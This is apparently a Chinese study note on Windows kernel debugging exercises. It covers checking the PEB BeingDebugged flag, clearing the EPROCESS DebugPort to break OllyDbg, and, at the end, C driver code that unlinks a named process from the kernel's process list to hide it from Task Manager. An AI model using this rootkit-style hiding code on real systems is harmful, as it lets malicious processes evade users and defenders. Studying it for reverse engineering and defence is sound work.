 **1、用OD附加记事本，然后查看记事本进程的PEB的BeingDebugged成员的值(注意：OD不要使用插件)**

OD附加前：![image-20210909171530578](https://raw.githubusercontent.com/che77a38/blogImage/main/image-20210909171530578.png)

OD附加后：![image-20210909171108678](https://raw.githubusercontent.com/che77a38/blogImage/main/image-20210909171108678.png)

**2、用OD附加记事本，下断点，然后在windbg中清空EPROCESS中的DebugPort中的值，然后单步调试，观察结果.**

修改前：![image-20210909165418505](https://raw.githubusercontent.com/che77a38/blogImage/main/image-20210909165418505.png)

修改后：![image-20210909165445414](https://raw.githubusercontent.com/che77a38/blogImage/main/image-20210909165445414.png)

单步调试触发：

![image-20210909165516800](https://raw.githubusercontent.com/che77a38/blogImage/main/image-20210909165516800.png)

单步调试直接触发异常，OD卡死

### 进程断链实现任务管理器隐藏

```c
//目标进程断链函数
BOOLEAN CutProcessInLink(char* name)
{
	ULONG curProcess;
	__asm
	{
		mov eax, dword ptr fs : [0x124] ;
		mov ecx, [eax + 0x44];
		mov curProcess, ecx;
	}
	PLIST_ENTRY plistProcess = (PLIST_ENTRY)(curProcess + 0x88);
	BOOLEAN isFlags = FALSE;
	while (plistProcess->Flink != (PLIST_ENTRY)(curProcess + 0x88))
	{
		ULONG nextProcess = ((ULONG)(plistProcess)) - 0x88;
		plistProcess = plistProcess->Flink;
		//KdPrint(("%s\n", (PCHAR)(nextProcess + 0x174)));
		if (strcmp(name, (PCHAR)(nextProcess + 0x174)) == 0)
		{
			curProcess = nextProcess;//找到目标进程
			//执行断链操作
			PLIST_ENTRY curProcessLink = (PLIST_ENTRY)(curProcess + 0x88);
			curProcessLink->Blink->Flink = curProcessLink->Flink;
			curProcessLink->Flink->Blink = curProcessLink->Blink;
			isFlags = TRUE;
			break;

		}
	}
	if (!isFlags)
	{
		return FALSE;
	}
	return TRUE;
}
```
